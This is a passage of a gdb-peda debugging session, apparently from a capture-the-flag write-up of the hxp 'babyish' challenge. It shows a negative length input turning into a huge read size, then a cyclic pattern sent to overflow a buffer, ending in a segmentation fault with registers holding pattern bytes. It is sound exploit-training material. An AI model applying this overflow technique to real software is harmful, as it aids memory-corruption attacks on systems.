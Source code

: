 ```
gdb-peda$ b *main+209
Breakpoint 1 at 0x80487c0: file vuln.c, line 39.
gdb-peda$ r
Starting program: /Hackery/hxp/bbpwn/babyish/vuln 
Enter username: guyinatuxedo
Hey guyinatuxedo
Enter length: -128
Enter string (length 4294967168): 
[----------------------------------registers-----------------------------------]
EAX: 0xffffd0bc --> 0x8048333 ("__libc_start_main")
EBX: 0x804a000 --> 0x8049f04 --> 0x1 
ECX: 0xffffab80 ("Enter string (length 4294967168): ")
EDX: 0x0 
ESI: 0xffffff80 
EDI: 0xf7fae000 --> 0x1b5db0 
EBP: 0xffffd118 --> 0x0 
ESP: 0xffffd0a0 --> 0x0 
EIP: 0x80487c0 (<main+209>:	call   0x80484a0 <read@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80487bb <main+204>:	lea    eax,[ebp-0x5c]
   0x80487be <main+207>:	push   eax
   0x80487bf <main+208>:	push   edx
=> 0x80487c0 <main+209>:	call   0x80484a0 <read@plt>
   0x80487c5 <main+214>:	add    esp,0x10
   0x80487c8 <main+217>:	sub    esp,0xc
   0x80487cb <main+220>:	lea    eax,[ebx-0x174a]
   0x80487d1 <main+226>:	push   eax
Guessed arguments:
arg[0]: 0x0 
arg[1]: 0xffffd0bc --> 0x8048333 ("__libc_start_main")
arg[2]: 0xffffff80 
[------------------------------------stack-------------------------------------]
0000| 0xffffd0a0 --> 0x0 
0004| 0xffffd0a4 --> 0xffffd0bc --> 0x8048333 ("__libc_start_main")
0008| 0xffffd0a8 --> 0xffffff80 
0012| 0xffffd0ac --> 0x8048764 (<main+117>:	mov    DWORD PTR [ebp-0x1c],eax)
0016| 0xffffd0b0 --> 0xf7ffd000 --> 0x23f3c 
0020| 0xffffd0b4 --> 0xf7ffd918 --> 0x0 
0024| 0xffffd0b8 --> 0xffffd0d0 --> 0xffffffff 
0028| 0xffffd0bc --> 0x8048333 ("__libc_start_main")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080487c0 in main () at vuln.c:39
39	    read(fileno(stdin), buf, len);
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ c
Continuing.
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
Thanks, bye!

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x35414166 ('fAA5')
ECX: 0x41414a41 ('AJAA')
EDX: 0xf7faf870 --> 0x0 
ESI: 0x414b4141 ('AAKA')
```